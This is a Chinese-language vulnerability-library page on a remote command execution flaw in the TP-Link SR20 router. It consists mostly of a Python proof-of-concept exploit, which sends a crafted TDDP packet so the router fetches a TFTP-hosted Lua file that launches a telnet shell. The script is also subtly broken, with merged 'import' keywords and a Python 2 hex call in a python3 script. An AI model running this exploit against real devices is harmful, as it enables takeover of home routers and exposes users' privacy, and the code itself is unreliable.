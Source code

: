 ```yaml
---
title: TP-Link SR20 远程命令执行
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - TP-Link
---
```


# TP-Link SR20 远程命令执行

## 漏洞描述

据外媒报道，著名安全专家、Google 安全工程师Matthew Garrett公开了TP-LINK SR20智能家居路由器一个“允许来自本地网络连接的任意命令执行”的漏洞。攻击者可通过该漏洞控制用户路由器，借此执行任意命令，危及用户隐私安全。

## 漏洞影响

> [!NOTE]
>
> TP-Link SR20

## 漏洞利用POC

```python
#!/usr/bin/python3
# Create /testfile in your tftp root directory with the followingcontents:
#function config_test(config)
# os.execute("telnetd -l/bin/login.sh")
#end
# Replace 192.168.0.1 with the IP address of the vulnerable device
importbinascii
importsocket
port_send = 1040
port_receive = 61000
tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X"% 00
tddp_packet = "".join([tddp_ver, tddp_command, tddp_req,tddp_reply, tddp_padding])
sock_receive = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock_receive.bind(( '', port_receive))

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
packet = packet + b"/testfile;arbitrary"
print(packet)
sock_send.sendto(packet, ( "192.168.0.1", port_send))
sock_send.close()
response, addr = sock_receive.recvfrom( 1024)
r = response.encode( 'hex')
print(r)
```

